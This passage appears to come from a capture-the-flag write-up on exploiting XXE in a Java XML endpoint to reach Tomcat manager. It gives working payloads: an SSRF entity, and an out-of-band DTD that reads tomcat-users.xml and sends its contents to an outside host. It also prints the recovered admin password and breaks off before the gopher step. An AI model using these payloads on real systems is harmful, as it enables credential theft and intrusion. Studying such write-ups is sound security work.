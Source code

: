 ```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:8080/manager/list">]>                                                             
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
```

Unfortunately we still got an error. It's because the web interface is protected by HTTP basic authentication. However, in this JAVA XXE, the HTTP protocol does not implement HTTP basic authentication. We cannot use `admin:password@localhost:8080` syntax to login. - We have to utilize gopher protocol!

Let's get the password first. The password is in `/opt/tomcat/conf/tomcat-users.xml`. However we cannot directly read this file because it will break the xml parser. We have to use [some clever technique](https://blog.zsec.uk/out-of-band-xxe-2/) to bypass this limitation - out-of-band.

```xml
<?xml version="1.0" ?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://240.240.240.240:8080/xxe_file.dtd">
%asd;
%c;
]>
<message>
<id></id>
<message>&rrr;</message>
<title>xml</title>
</message>
```

`xxe_file.dtd`:

```xml
<!ENTITY % d SYSTEM "file:///opt/tomcat/conf/tomcat-users.xml">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://240.240.240.240:8082/?a=%d;'>">
```

Basically, it first includes the XML DTD, and then it reads the file. Instead of rendering in XML, it sends the file content to us through http protocol. That's why it's called out-of-band. Here is the password file of tomcat manager:

```xml
<tomcat-users>
  <role rolename="manager"/>
  <user name="admin" password="sup3rs3cr3tp4ssc0d3" roles="manager"/>
</tomcat-users>
```

#### Almighty Gopher

Since the HTTP protocol in this JAVA XML has no support of [HTTP basic authentication](https://en.wikipedia.org/wiki/Basic_access_authentication), we have to leverage gopher to make the following request:
